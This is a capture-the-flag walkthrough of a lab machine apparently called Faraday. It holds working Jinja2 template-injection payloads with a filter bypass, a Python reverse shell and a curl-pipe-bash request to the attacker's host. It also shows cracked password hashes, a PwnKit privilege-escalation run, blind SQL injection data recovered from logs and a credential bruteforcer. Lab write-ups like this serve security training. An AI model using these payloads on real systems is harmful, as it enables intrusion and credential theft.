# HTTP

The NMAP was able to identify that there is a custom website running on this server?


Wappalyzer isnt't able to spot anything interesting so far:

&nbsp;

The session cookie is using a JWT cookie:





This, might be relevant to know if there is traces of verbose errors. But I will dump the result of the git folder that NMAP found as well:



Now I see only 3 commits in the code so far:



Now the layesy commit shows that sendmessage can show a flag?  


Now I will register and login with a dummy user so I can see what can i do here..



Ah I see, it is a message system?

# Checking the source code

Now before starting to shoot around like a cuckoo, I will check the code and I see that the backend is a flask application and uses Jinja2 which might be relevant for a SSTI?



Now there is a lot of templates but the main code is here:

```python
#!/usr/bin/env python3
from flask import Flask, request, g, render_template, render_template_string, Response, send_from_directory
from flask import redirect, url_for
from flask_mail import Mail, Message

from flask_sqlalchemy import SQLAlchemy
from werkzeug.security import generate_password_hash, check_password_hash
from flask_login import UserMixin, LoginManager, login_required, current_user, logout_user, login_user

import sqlite3
import os
import smtplib


app = Flask(__name__)
app.config['SECRET_KEY'] = os.environ['SECRET_KEY']
app.config['SQLALCHEMY_DATABASE_URI'] = 'sqlite:///db/database.db'
app.config['SQLALCHEMY_TRACK_MODIFICATIONS'] = False

template = '''
An event was reported at SERVER:
{{ message }}
Here is your gift {{ tinyflag }}
'''

db = SQLAlchemy(app)

db.init_app(app)

login = LoginManager()
login.init_app(app)
login.login_view = 'login'

@login.user_loader
def load_user(id):
    return UserModel.query.get(int(id))

class UserModel(UserMixin, db.Model):
    id = db.Column(db.Integer, primary_key=True)
    email = db.Column(db.String(80), nullable=False, unique=True)
    username = db.Column(db.String(100), nullable=False, unique=True)
    password_hash = db.Column(db.String(), nullable=False)
    config = db.relationship('SmtpConfig', backref='owner', lazy=True)
    message = db.relationship('MessageModel', backref='sender', lazy=True)

    def set_password(self, password):
        self.password_hash = generate_password_hash(password, "sha256")
    
    def check_password(self, password):
        return check_password_hash(self.password_hash, password)

class SmtpConfig(db.Model):
    server_id = db.Column(db.Integer, primary_key=True)
    host = db.Column(db.String(100), nullable=False)
    port = db.Column(db.Integer, nullable=False)
    smtp_username = db.Column(db.String(100), nullable=False)
    smtp_password = db.Column(db.String(), nullable=False)
    use_tls = db.Column(db.Boolean)
    use_ssl = db.Column(db.Boolean)
    user_id = db.Column(db.Integer, db.ForeignKey('user_model.id'), nullable=False)

class MessageModel(db.Model):
    message_id = db.Column(db.Integer, primary_key=True)
    server = db.Column(db.String(256))
    dest = db.Column(db.String(100))
    subject = db.Column(db.String(100))
    body = db.Column(db.String(100))
    user_id = db.Column(db.Integer, db.ForeignKey('user_model.id'), nullable=False)

@app.before_first_request
def create_table():
    db.create_all()

@app.teardown_appcontext
def close_connection(exception):
    db.session.close()
    db.get_engine(app).dispose()

@app.route('/sendMessage', methods=['POST', 'GET'])
@login_required
def sendMessage():
    if request.method == "POST":
        if current_user.config and current_user.message:
            smtp = current_user.config[0]
            message = current_user.message[0]
            message.dest = request.form['dest']
            message.subject = request.form['subject']
            message.body =  "Subject: %s\r\n" % message.subject + render_template_string(template.replace('SERVER', message.server), message=request.form['body'], tinyflag=os.environ['TINYFLAG'])
            db.session.commit()
            try:
                server = smtplib.SMTP(host=smtp.host, port=smtp.port)
                if smtp.smtp_username != '':
                    server.login(smtp.smtp_username, smtp.smtp_password)
                server.sendmail('no-reply@faradaysec.com', message.dest, message.body)
                server.quit()
            except:
                return render_template('bad-connection.html')
        elif not current_user.config:
            return redirect('/configuration')
        else:
            return redirect('/profile')
    
    return render_template('sender.html')

@app.route('/profile')
@login_required
def profile():
    name = request.args.get('name', '')
    if name:
        if not current_user.message:
            message = MessageModel(server=name, user_id=current_user.id)
            db.session.add(message)
            db.session.commit()
        else:
            current_user.message[0].server = name
            db.session.commit()
        return redirect('/sendMessage')

    return render_template('base.html')

@app.route('/configuration', methods=['POST', 'GET'])
@login_required
def config():
    if request.method == 'POST':
        if not current_user.config:
            host = request.form['host']
            port = request.form['port']
            smtp_username = request.form['username']
            smtp_password = request.form['password']
            use_tls = "use_tls" in request.form
            use_ssl = "use_ssl" in request.form

            conf = SmtpConfig(
                host=host,
                port=port,
                smtp_username=smtp_username,
                smtp_password=smtp_password,
                use_tls=use_tls,
                use_ssl=use_ssl,
                user_id=current_user.id
                )
            db.session.add(conf)
            db.session.commit()
        else:
            current_user.config[0].host = request.form['host']
            current_user.config[0].port = request.form['port']
            current_user.config[0].smtp_username = request.form['username']
            current_user.config[0].smtp_password = request.form['password']
            current_user.config[0].use_tls = "use_tls" in request.form
            current_user.config[0].use_ssl = "use_ssl" in request.form
            db.session.commit()

        return render_template('conf-saved.html')
    else:
        if current_user.config:
            return render_template(
                'conf.html',
                host=current_user.config[0].host,
                port=current_user.config[0].port,
                username=current_user.config[0].smtp_username,
                password=current_user.config[0].smtp_password,
                use_tls=current_user.config[0].use_tls,
                use_ssl=current_user.config[0].use_ssl
                )
        return render_template('conf.html')

@app.route('/')
@login_required
def index():
    if current_user.is_authenticated and current_user.config:
        return redirect('/profile')
    elif current_user.is_authenticated:
        return redirect('/configuration')

    return redirect('/login')

@app.route('/login', methods=['POST', 'GET'])
def login():
    if current_user.is_authenticated:
        if not current_user.config:
            return redirect('/configuration')
        else:
            return redirect('/profile')
    
    if request.method == 'POST':
        username = request.form['username']
        user = UserModel.query.filter_by(username = username).first()
        if user is not None and user.check_password(request.form['password']):
            login_user(user)
            if not current_user.config:
                return redirect('/configuration')
            else:
                return redirect('/profile')
    
    return render_template('login.html')

@app.route('/signup', methods=['POST', 'GET'])
def signup():
    if current_user.is_authenticated:
        return redirect('/profile')
    
    if request.method == 'POST':
        email = request.form['email']
        username = request.form['username']
        password = request.form['password']

        email_exists = UserModel.query.filter_by(email=email).first()
        username_exists =UserModel.query.filter_by(username=username).first()
        
        if email_exists and username_exists:
            return render_template('register.html', bad_email=True, bad_username=True)

        if email_exists:
            return render_template('register.html', bad_email=True)

        if username_exists:
            return render_template('register.html', bad_username=True)
        
        user = UserModel(email=email, username=username)
        user.set_password(password)
        db.session.add(user)
        db.session.commit()
        return redirect('/configuration')

    return render_template('register.html')

@app.route('/logout')
def logout():
    logout_user()
    return redirect('/login')

if __name__ == "__main__":
    app.run(host='0.0.0.0', port=8000, debug=True)

```

And as seen before the first flag will be shown in the message body, so i really guess I need to setup a open smtp server and use that to get the mail. I think mailhog will do the trick? So now I am using a dummy container for a SMTP server:



```bash
┌──(user㉿kali-almi)-[~/Downloads/Faraday]
└─$ docker run -d -p 1025:1025 -p 8025:8025 axllent/mailpit
Unable to find image 'axllent/mailpit:latest' locally
latest: Pulling from axllent/mailpit
1074353eec0d: Already exists 
a6884970181a: Pull complete 
81cb2b98ba56: Pull complete 
Digest: sha256:27cfb8893806ed676042a00f4db70325a0d57cc5217349d210b6dd903e1a7e67
Status: Downloaded newer image for axllent/mailpit:latest
33ed6ceb9c7ee0c6ff57dddda31308146ef48d6a11e65516232fc760b821d219
                                                                                                                                                               
┌──(user㉿kali-almi)-[~/Downloads/Faraday]
└─$ docker ps                                              
CONTAINER ID   IMAGE             COMMAND      CREATED         STATUS                   PORTS                                                                                            NAMES
33ed6ceb9c7e   axllent/mailpit   "/mailpit"   4 seconds ago   Up 4 seconds (healthy)   0.0.0.0:1025->1025/tcp, :::1025->1025/tcp, 0.0.0.0:8025->8025/tcp, :::8025->8025/tcp, 1110/tcp   nostalgic_murdock

```

And now I need to setup as the SMTP server in the webpage. And this should do the trick:  


So let's see it this will work?  




Umh okay it checks that my server is local? Now my guessing is that it has to do with these servers?  


because in the code it checks that the current user uses the same smtp config?



But then I noticed I used the wrong SMTP port (1025 is correct while the 8025 is for the frontend mailbox):



Indeed now I have the first flag baby!



Now honestly I don't think i can get much more out of this service I guess I'll will have to move to the other service.

# Port 8888

Now let's see what the fuzz is about the port 8888.



I need some credentials but I have no clue where to find them?



Seems like there is some sort of protection? Now I do wonder if these are possible usernames?



But I think it is not that the way in!

# Back on the SSTI

Now I suspected the traces of SSTI on the profile but judging I think this might be the way in.

```http
GET /profile?name=%7b%7b%20''.__class__.__mro__%5b2%5d.__subclasses__()%5b40%5d('%2fetc%2fpasswd').read()%20%7d%7d HTTP/1.1
Host: 10.13.37.14
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/143.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.13.37.14/profile
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: session=.eJydjs1qwzAQhF9F7NkU_awlrZ-i9xLCarWKDW4TLOcU8u4V9A16Gob5hpkXXNvOfdUOy9cLzDkEvrV3vilM8LkrdzX7_Wa2H3PeDYuM0Jzr1s1jMB9weU__7F2mMX5oX2E5j6cOt1VYQCT5zNxSDBodosXQiriKoRTvcmUK8wBQW6qCiYgy5UxtDnZunKNN1nKrIiVQtHOppSCzuFSoYCSXU0DrahSvwc-Wmnj07LliLY6xjfvXZ9fj7w3B-xcshlkI.aW93Lg.lVnJWVKoKnRJG8p7sog0rxP3rQQ
Connection: keep-alive


```

But seems like it is clearing the {{ }}?

```bash
An event was reported at  ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}:
This is a test email
Here is your gift FARADAY{ehlo_@nd_w3lcom3!}
```

here I noticed something off string from a basic like this:  


As you see the first 2x {{ were deleted and not the second ones:



Now this means that the backend is stripping the 2 ones, resulting in a wrong execution? What happens if I ommit the first 2?  


Same crap, what about 3 instead?

```http
GET /profile?name=%7b%7b%7b4*4%7d%7d%20 HTTP/1.1
Host: 10.13.37.14
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/143.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.13.37.14/profile
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: session=.eJydjs1qwzAQhF9F7NkU_awlrZ-i9xLCarWKDW4TLOcU8u4V9A16Gob5hpkXXNvOfdUOy9cLzDkEvrV3vilM8LkrdzX7_Wa2H3PeDYuM0Jzr1s1jMB9weU__7F2mMX5oX2E5j6cOt1VYQCT5zNxSDBodosXQiriKoRTvcmUK8wBQW6qCiYgy5UxtDnZunKNN1nKrIiVQtHOppSCzuFSoYCSXU0DrahSvwc-Wmnj07LliLY6xjfvXZ9fj7w3B-xcshlkI.aW93Lg.lVnJWVKoKnRJG8p7sog0rxP3rQQ
Connection: keep-alive


```

I feel we are getting somewhere!



Now if the WAF is not sanitizing in recursive mode by doubling the "{{" I should be able to bypass it?

```http
GET /profile?name=%7b%7b%7b%7b4*4%7d%7d%20 HTTP/1.1
Host: 10.13.37.14
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/143.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.13.37.14/profile
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: session=.eJydjs1qwzAQhF9F7NkU_awlrZ-i9xLCarWKDW4TLOcU8u4V9A16Gob5hpkXXNvOfdUOy9cLzDkEvrV3vilM8LkrdzX7_Wa2H3PeDYuM0Jzr1s1jMB9weU__7F2mMX5oX2E5j6cOt1VYQCT5zNxSDBodosXQiriKoRTvcmUK8wBQW6qCiYgy5UxtDnZunKNN1nKrIiVQtHOppSCzuFSoYCSXU0DrahSvwc-Wmnj07LliLY6xjfvXZ9fj7w3B-xcshlkI.aW93Lg.lVnJWVKoKnRJG8p7sog0rxP3rQQ
Connection: keep-alive


```



Ok damn, so it means I need to find a way how to bypass it and after many tests seems like this bypasses the fiilter?  




Now I asked the AI and came up with this



Which actually worked with 49, now I should have a good entrypoint:



Whic means that if my theory is true:

```bash
//base command
 
 
//By replacing the command in the brsckets It should work?
 
 
```

And I have a working LFI!



But can i upgrade this to a RCE?

```http
GET /profile?name=%7b%25%20for%20x%20in%20%5bself.__init__.__globals__.__builtins__.__import__('os').popen('id').read()%5d%20%25%7d%7b%25%20print%20x%20%25%7d%7b%25%20endfor%20%25%7d HTTP/1.1
Host: 10.13.37.14
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/143.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.13.37.14/profile
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: session=.eJydjs1qwzAQhF9F7NkU_awlrZ-i9xLCarWKDW4TLOcU8u4V9A16Gob5hpkXXNvOfdUOy9cLzDkEvrV3vilM8LkrdzX7_Wa2H3PeDYuM0Jzr1s1jMB9weU__7F2mMX5oX2E5j6cOt1VYQCT5zNxSDBodosXQiriKoRTvcmUK8wBQW6qCiYgy5UxtDnZunKNN1nKrIiVQtHOppSCzuFSoYCSXU0DrahSvwc-Wmnj07LliLY6xjfvXZ9fj7w3B-xcshlkI.aW93Lg.lVnJWVKoKnRJG8p7sog0rxP3rQQ
Connection: keep-alive


```



Nice, now I should be able to get a working shell?

```http
//Request
GET /profile?name= HTTP/1.1

```

But all of them are failing so I think I need to find a good candidate and I saved this shell locally on my server:

```bash
└─$ cat shell.sh               
#!/bin/bash
python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("10.10.16.63",4444));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("/bin/bash")'

```

I sent this SSTI that performs a curl request and executes the code:



```bash
GET /profile?name=%7b%25%20for%20x%20in%20%5bself.__init__.__globals__.__builtins__.__import__('os').popen('curl%2010.10.16.63%2fshell.sh%7cbash').read()%5d%20%25%7d%7b%25%20print%20x%20%25%7d%7b%25%20endfor%20%25%7d HTTP/1.1
Host: 10.13.37.14
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/143.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.13.37.14/profile
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: session=.eJydjktuwzAMRK8icG0U-liU5FN0XwSBxE9swG0Cy1kFuXsF9AblhuBwHmZecNW99lU6LF8vMOdY8C2915vABJ-71C5mv9_M9mPOu6lE42nOdevmMTwfcHlP_-Qu0wg_pK-wnMdTxrUxLOCd8-QCIkc3M-oYSoUpsLMR0VWJiXKTFnyiQCjKWLIWrJrSwLSI9YXsbIVV89xKQxdn21SHnmcMGB1ZRgrRFp8yMQbO5HIiJuVR__rscvy1SfD-BTyDWTY.aXCteg.bnsF2S4v1UM5kbU8l1X0mYXBrDE
Connection: keep-alive


```

And I have my first shell baby!

# Pillaging the server

Now I am able to get the second flag!

&nbsp;

Now I will look around and I will getall the hashes from this DB and check If i can grab some creds?



And I have some of them:

```bash
Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt.gz
* Passwords.: 14344385
* Bytes.....: 53357329
* Keyspace..: 14344385

sha256$9NzZrF4OtO9r0nFx$c3aa1b68bea55b4493d2ae96ec596176890c4ccb6dedf744be6f6bdbd652255d:sarmiento
sha256$MsbGKnO1PaFa3jhV$6b166f7f0066a96e7565a81b8e27b979ca3702fdb1a80cef0a1382046ed5e023:antihacker
sha256$GqgROghu45Dw4D8Z$5a7eee71208e1e3a9e3cc271ad0fd31fec133375587dc6ac1d29d26494c3a20f:ihatepasta
sha256$gqsmQ2210dEMufAk$98423cb07f845f263405de55edb3fa9eb09ada73219380600fc98c54cd700258:octopass

//users
pepe: sarmiento
pasta: antihacker
administrator: ihatepasta
octo: octopass
```

I am also able to see the secret from the environmental file which might also be another password?

```bash
root@796685bacff2:/app# env
env
LANG=C.UTF-8
HOSTNAME=796685bacff2
GPG_KEY=0D96DF4D4110E5C43FBFB17F2D347EA6AA65421D
SECRET_KEY=sarasa
PWD=/app
PYTHON_GET_PIP_SHA256=6665659241292b2147b58922b9ffe11dda66b39d52d8a6f3aa310bc1d60ea6f7
HOME=/root
PYTHON_GET_PIP_URL=https://github.com/pypa/get-pip/raw/a1675ab6c2bd898ed82b1f58c486097f763c74a9/public/get-pip.py
PYTHON_VERSION=3.6.14
SHLVL=2
PATH=/usr/local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
TINYFLAG=FARADAY{ehlo_@nd_w3lcom3!}
PYTHON_PIP_VERSION=21.1.3
SERVER_SOFTWARE=gunicorn/19.9.0
_=/usr/bin/env
OLDPWD=/app/db

```

Next, I can see traces about a possible hint about the internal network?



Now I am definitely inside a docker environment and since I am root, it should be pretty easy to exit here?



# Escaping the container

Now I will download a static binary from the official repository: https://download.docker.com/linux/static/stable/x86_64/

And by uploading on the container I should be able to use it to talk to the service right? Nah because the socket is not exposed right?  


Now here I had to check with AI cause it was long time ago I didn't have to perform a docker escape and judging from the following picture the relase_agent breakout 1 might be a very good candidate.



But without further do I might have found another way in, instead by using the password from the DB I am into the backend machine:



# Inside the machine

Now I guess my goal is to get to Root right?

I see a old sudo version which might be an unintended way right?





Another possible exploit:


I see some custom users:



I see also a custom binary that might give me another flag right?

```bash
pasta@erlenmeyer:~$ strings crackme
/lib64/ld-linux-x86-64.so.2
libm.so.6
_ITM_deregisterTMCloneTable
__gmon_start__
_ITM_registerTMCloneTable
libc.so.6
__printf_chk
__isoc99_scanf
puts
__stack_chk_fail
__cxa_finalize
__libc_start_main
GLIBC_2.29
GLIBC_2.7
GLIBC_2.3.4
GLIBC_2.4
GLIBC_2.2.5
D$H1
t$ H
T$?f
|$ FARA
D$?u*
|$$DAY{u 
|$(d0ubu
|$,l3_@u
|$8_t 
D$HdH3
|$0nd_fu
|$41ot@u
T$0H
u+UH
[]A\A]A^A_
Insert flag: 
%32s
x: %.30lf
y: %.30lf
z: %.30lf
Well done!
Try Again
:*3$"
GCC: (Ubuntu 9.3.0-17ubuntu1~20.04) 9.3.0
crackme.c
crtstuff.c
deregister_tm_clones
__do_global_dtors_aux
completed.8060
__do_global_dtors_aux_fini_array_entry
frame_dummy
__frame_dummy_init_array_entry
__FRAME_END__
__init_array_end
_DYNAMIC
__init_array_start
__GNU_EH_FRAME_HDR
_GLOBAL_OFFSET_TABLE_
__libc_csu_fini
_ITM_deregisterTMCloneTable
puts@@GLIBC_2.2.5
_edata
pow@@GLIBC_2.29
__stack_chk_fail@@GLIBC_2.4
__libc_start_main@@GLIBC_2.2.5
__data_start
__gmon_start__
__dso_handle
_IO_stdin_used
_Z4swapPcS_
__libc_csu_init
__bss_start
main
__printf_chk@@GLIBC_2.3.4
__isoc99_scanf@@GLIBC_2.7
__TMC_END__
_ITM_registerTMCloneTable
__cxa_finalize@@GLIBC_2.2.5
_Z12round_doubledi
.symtab
.strtab
.shstrtab
.interp
.note.gnu.property
.note.gnu.build-id
.note.ABI-tag
.gnu.hash
.dynsym
.dynstr
.gnu.version
.gnu.version_r
.rela.dyn
.rela.plt
.init
.plt.got
.plt.sec
.text
.fini
.rodata
.eh_frame_hdr
.eh_frame
.init_array
.fini_array
.dynamic
.data
.bss
.comment

```

I need to parse the crap so that i can get a flag? This is the main code parsed in ghidra:  


From here I asked AI cause I suck at C and apparently it is enough to concatenate the HEX values.

```c
  if ((((local_38 == L'\x41524146') && (local_34 == 0x7b594144)) && (local_30 == 0x62753064)) &&
     (((iStack_2c == 0x405f336c && (local_20 == '_')) &&
      ((local_28 == 0x665f646e && (CONCAT22(uStack_22,uStack_24) == 0x40746f31)))))) {
    dVar2 = (double)CONCAT26(uStack_22,CONCAT24(uStack_24,0x665f646e));
    dVar3 = (double)CONCAT17(uVar1,CONCAT43(uStack_1d,CONCAT21(uStack_1f,0x5f)));
    __printf_chk(0x405f336c62753064,1,&DAT_00102017);
    __printf_chk(dVar2,1,"y: %.30lf\n");
    __printf_chk(dVar3,1,"z: %.30lf\n");
```


And going by exclusion since the word was trucated:

owever, in many CTFs, the flag is simply the string you reconstructed. Looking at the logic:

1.  It checks the first 25+ characters.
    
2.  It then performs math on the *rest* of your input.
    
3.  If the math results in `4088116.817143337`, you win.
    

The string we have so far is: `FARADAY{d0ubl3_@nd_f1ot@_`

The suffix is likely related to the floating-point values or a word that fits the context "double and float". Given the characters used, the suffix might be **`numb3rs}`** or similar. But again, gemini tipsed check the size of that DAT file resulting in 32 byte long:




But here I checked for tips cause I literally hate c stuff.

```bash
pasta@erlenmeyer:~$ ./crackme
Insert flag: FARADAY{d0ubl3_@nd_f1o@t_be@uty}
x: 124.803490271036537251347908750176
y: 326.949560520769296090293209999800
z: 407.278684040100358743075048550963
4088116.817143336869776248931884765625
Well done!
pasta@erlenmeyer:~$ 


```

# Road to root

Now I will use the CVE found to move on and obtain root in [this](https://github.com/joeammond/CVE-2021-4034) damn machine and since the poolkit held SUID rights this exploit should work!



```
pasta@erlenmeyer:/tmp$ python3 CVE-2021-4034.py
[+] Creating shared library for exploit code.
[+] Calling execve()
# id
uid=0(root) gid=1001(pasta) groups=1001(pasta)
# cd /root
# ls
access.log  chkrootkit.txt  exploitme  flag.txt  scripts  snap	web
# cat flag.txt
FARADAY{__1s_pR1nTf_Tur1ng_c0mPl3t3?__}
# 

```

Now I am clearly missing something here in terms of flags?



Now I see another cracking shite?



# Getting back as administrator

Now I totally missied and I had to go back but I actually had credentials from the DB for the user Administrator:



if this is true I should be able to get a switched login?  


Yeah! But he can't do anything interesting so far:  


So let's run linpeas again to check if I can get more crap out of it. But again here I had to ask for a nudge and apparently the user can read the logs?


Now again a got another nudge of looking for SQLlogs and since it is URL encoded I asked AI to give me a oneliner to convert the url to cleartext:

```bash
cat /var/log/apache2/access.log | python3 -c "import sys, urllib.parse; [print(urllib.parse.unquote(line.strip())) for line in sys.stdin]"
```

And here I see some searches?  


So again I asked AI to parse the URL decoded logs and I have this to work with:

```python
import re
from collections import defaultdict

def extract_all_rows(filename):
    # Regex captures: 
    # Group 1: Response Time
    # Group 2: Row Index (the '9' in LIMIT 9,1)
    # Group 3: Character Position
    # Group 4: ASCII value
    pattern = re.compile(r"^(\d+).*?LIMIT\s+(\d+),1\),(\d+),1\)\)!=(\d+)")
    
    # Use a dictionary of dictionaries: data[row][pos] = char
    db_data = defaultdict(dict)

    try:
        with open(filename, 'r') as f:
            for line in f:
                match = pattern.search(line)
                if match:
                    resp_time = int(match.group(1))
                    row_idx = int(match.group(2))
                    pos = int(match.group(3))
                    ascii_val = int(match.group(4))

                    # Logic: If it's a "True" response (no sleep)
                    if resp_time < 1000000:
                        db_data[row_idx][pos] = chr(ascii_val)

        # Print row by row
        print(f"{'Row':<5} | {'Content'}")
        print("-" * 50)
        for row in sorted(db_data.keys()):
            row_content = "".join([db_data[row][p] for p in sorted(db_data[row].keys())])
            print(f"{row:<5} | {row_content}")

    except FileNotFoundError:
        print("Error: access_url.log not found.")

if __name__ == "__main__":
    extract_all_rows("access_url.log")
```

And I have another flag exported from the access.log via a SQL map thingy:

```bash
─$ python3 exploit.py                                                         
Row   | Content
--------------------------------------------------
0     | powered by linuxSET `keyword` = ? AND ? = ( SELECT ( CASE WHEN ( ? = ? ) THEN ? ELSE ( SELECT ? UNION SELECT ? ) END ) )
1     | There are two major products that came out of Berkeley: LSD and UNIX. We don't believe this to be a coincidence.
2     | There's nobody getting rich writing software that I know of.
3     | 640K ought to be enough for anybody.
4     | Most hackers are young because young people tend to be adaptable. As long as you remain adaptable, you can always be a good hacker.
5     | Did you ever play tic-tac-toe?.
6     | FARADAY{@cc3ss_10gz_c4n_b3_use3fu111}
7     | Listen to me, Coppertop. We don't have time for 20 Questions.
8     | I hate the administrator too.mp_file
9     | Rethink vulnerability management.file
10    | total_latencyinnodb/innodb_data_file
11    | 199.73 ms/table/sql/handler
12    | 1.26 minsile/innodb/innodb_log_file
13    | 2.32 ss/table/sql/handler
28    | me_zone
29    | _leap_second
30    | name
31    | transition
32    | _type
33    | user

```

# Again back on port 8888

Again, I had already missed but apparently it is possible to login to the port 8888 with one of the custom credentiials and judging by the flag name it might mean that I can try with pasta's credentials?


I asked AI to generate a bruteforcer with the credentials I found:

```python
#!/usr/bin/env python3
import socket
import sys
import time

def attempt_login(ip, port, username, password):
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.settimeout(3)
        s.connect((ip, port))

        # Initial prompt
        s.recv(1024)
        s.sendall(f"{username}\n".encode())

        # Password prompt
        time.sleep(0.1)
        s.recv(1024)
        s.sendall(f"{password}\n".encode())

        # Capture result
        time.sleep(0.3) # Slightly longer to capture potential flag/data
        response = s.recv(4096).decode(errors='ignore')
        s.close()
        return response
    except Exception as e:
        return f"Error: {str(e)}"

def main():
    if len(sys.argv) != 3:
        print(f"Usage: {sys.argv[0]} <userfile> <passfile>")
        sys.exit(1)

    user_file, pass_file = sys.argv[1], sys.argv[2]
    target_ip, target_port = "10.13.37.14", 8888
    
    found_creds = []

    try:
        with open(user_file, 'r') as uf:
            usernames = [line.strip() for line in uf if line.strip()]
        with open(pass_file, 'r') as pf:
            passwords = [line.strip() for line in pf if line.strip()]
    except FileNotFoundError as e:
        print(f"[-] {e}")
        sys.exit(1)

    print(f"[*] Targeting {target_ip}:{target_port}...")
    print("[*] Note: Script will continue until all combinations are tested.")

    for user in usernames:
        for pwd in passwords:
            sys.stdout.write(f"\r[*] Testing {user}:{pwd} ".ljust(45))
            sys.stdout.flush()
            
            res = attempt_login(target_ip, target_port, user, pwd)

            if "access granted" in res.lower():
                print(f"\n[+] FOUND! User: {user} | Pwd: {pwd}")
                # We save it to the list and DO NOT return/break
                found_creds.append(f"{user}:{pwd}")
                
                # If there's extra data (like a flag) in the response, print it
                if len(res.strip()) > len("access granted!!!"):
                    print(f"[!] Extra data found: {res.strip()}")

    print("\n" + "="*30)
    print(f"[*] Brute force complete.")
    print(f"[*] Total found: {len(found_creds)}")
    for cred in found_creds:
        print(f" >> {cred}")
    print("="*30)

if __name__ == "__main__":
    main()
```

And I have another set of credentials baby!



# The last stretch

Now again the flag name is an hint on where to look at and specifically i remember seeing a rootkit log under root user:




But since I am root I can just read the vim file to get the flag!

```bash
root@erlenmeyer:~# cat .viminfo
# This viminfo file was generated by Vim 8.1.
# You may edit it if you're careful!

# Viminfo version
|1,4

# Value of 'encoding' when this file was written
*encoding=utf-8


# hlsearch on (H) or off (h):
~h
# Command Line History (newest to oldest):
:wq
|2,0,1634660690,,"wq"

# Search String History (newest to oldest):

# Expression History (newest to oldest):

# Input Line History (newest to oldest):

# Debug Line History (newest to oldest):

# Registers:
""-	CHAR	0
    FARADAY{__LKM-is-a-l0t-l1k3-an-0r@ng3__}
|3,1,36,0,1,0,1634660688,"FARADAY{__LKM-is-a-l0t-l1k3-an-0r@ng3__}"

# File marks:
'0  1  39  /reptileRoberto/reptileRoberto_flag.txt
|4,48,1,39,1634660690,"/reptileRoberto/reptileRoberto_flag.txt"
'1  3  3  ~/scripts/cleanup.sh
|4,49,3,3,1634660630,"~/scripts/cleanup.sh"

# Jumplist (newest first):
-'  1  39  /reptileRoberto/reptileRoberto_flag.txt
|4,39,1,39,1634660690,"/reptileRoberto/reptileRoberto_flag.txt"
-'  3  3  ~/scripts/cleanup.sh
|4,39,3,3,1634660630,"~/scripts/cleanup.sh"
-'  3  3  ~/scripts/cleanup.sh
|4,39,3,3,1634660630,"~/scripts/cleanup.sh"
-'  1  0  ~/scripts/cleanup.sh
|4,39,1,0,1634660597,"~/scripts/cleanup.sh"
-'  1  0  ~/scripts/cleanup.sh
|4,39,1,0,1634660597,"~/scripts/cleanup.sh"

# History of marks within files (newest to oldest):

> /reptileRoberto/reptileRoberto_flag.txt
    *	1634660690	0
    "	1	39
    ^	1	40
    .	1	39
    +	1	39

> ~/scripts/cleanup.sh
    *	1634660629	0
    "	3	3
    ^	3	17
    .	2	3
    +	3	16
    +	2	3
root@erlenmeyer:~# 

```

But apparently the intended way is to reach that folder which is hidden for some goddamn reason.

&nbsp;

```bash
rwxr-xr-x  21 root root  4096 Sep 14  2021 ..
-rw-------   1 root root    21 Sep 14  2021 .bash_history
lrwxrwxrwx   1 root root     7 Feb  1  2021 bin -> usr/bin
drwxr-xr-x   4 root root  4096 Jul 16  2021 boot
drwxr-xr-x   2 root root  4096 Jul 16  2021 cdrom
drwxr-xr-x  18 root root  3980 Jan 21 10:39 dev
drwxr-xr-x  97 root root  4096 Jan 21 13:56 etc
drwxr-xr-x   6 root root  4096 Jan 21 13:56 home
lrwxrwxrwx   1 root root     7 Feb  1  2021 lib -> usr/lib
lrwxrwxrwx   1 root root     9 Feb  1  2021 lib32 -> usr/lib32
lrwxrwxrwx   1 root root     9 Feb  1  2021 lib64 -> usr/lib64
lrwxrwxrwx   1 root root    10 Feb  1  2021 libx32 -> usr/libx32
drwx------   2 root root 16384 Jul 16  2021 lost+found
drwxr-xr-x   2 root root  4096 Feb  1  2021 media
drwxr-xr-x   3 root root  4096 Jul 16  2021 mnt
drwxr-xr-x   2 root root  4096 Feb  1  2021 opt
dr-xr-xr-x 327 root root     0 Jan 21 10:39 proc
drwx------   9 root root  4096 Dec  9 15:34 root
